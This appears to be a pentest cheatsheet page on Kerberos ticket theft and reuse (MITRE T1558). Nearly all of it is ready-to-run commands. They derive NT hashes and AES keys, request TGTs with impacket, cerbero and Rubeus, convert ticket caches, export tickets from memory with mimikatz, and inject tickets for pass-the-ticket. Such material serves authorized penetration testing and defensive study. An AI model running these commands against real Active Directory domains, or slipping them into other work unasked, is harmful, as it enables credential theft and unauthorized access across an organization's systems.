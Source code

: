 ```yaml
---
layout: post
title: pen / krb
category: pen
parent: cheatsheets
modified_date: 2023-06-09
permalink: /pen/krb
---
```


**Mitre Att&ck Entreprise**: [T1558 Steal and Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/) 

**Menu**
<!-- vscode-markdown-toc -->
1. [prereq](#prereq)
2. [get-nthash](#get-nthash)
3. [get-tgt](#get-tgt)
4. [ccache-convert](#ccache-convert)
5. [krb-export](#krb-export)
6. [krb-ptt](#krb-ptt)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='prereq'></a>prereq

* Which OS ? What Creds ?
![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

### tools

* [Rubeus compilation wiki](https://github.com/GhostPack/Rubeus)
* cerbero
* tickey
* impacket

##  2. <a name='get-nthash'></a>get-nthash
```
# compute nthash from clear-text password
cerbero hash $ztarg_user_pass -u $zdom_fqdn/$ztarg_user_name
$ztarg_user_nthash=""
$ztarg_user_aes256k=""
```

##  3. <a name='get-tgt'></a>get-tgt
```
getTGT.py $zdom_fqdn/$ztarg_user_name@$ztarg_dc_fqdn -aesKey $ztarg_user_aes256k -dc-ip $zdom_dc_ip
getTGT.py $zdom_fqdn/$ztarg_user_name@$ztarg_computer_fqdn -aesKey $ztarg_user_aes256k -dc-ip $zdom_dc_ip

cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_dc_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_computer_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv

cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$ztarg_user_name /password:$ztarg_user_pass /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

##  4. <a name='ccache-convert'></a>ccache-convert

* Convert linux to windows krb ticket :
```
ticketConverter.py $ztarg_user_name.ccache $ztarg_user_name.krb
cerbero convert -i $ztarg_user_name.ccache -o $ztarg_user_name.krb
```

##  5. <a name='krb-export'></a>krb-export
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

##  6. <a name='krb-ptt'></a>krb-ptt
```bash
# linux
export KRB5CCNAME="$PWD/$ztarg_user_name.krb" 
```


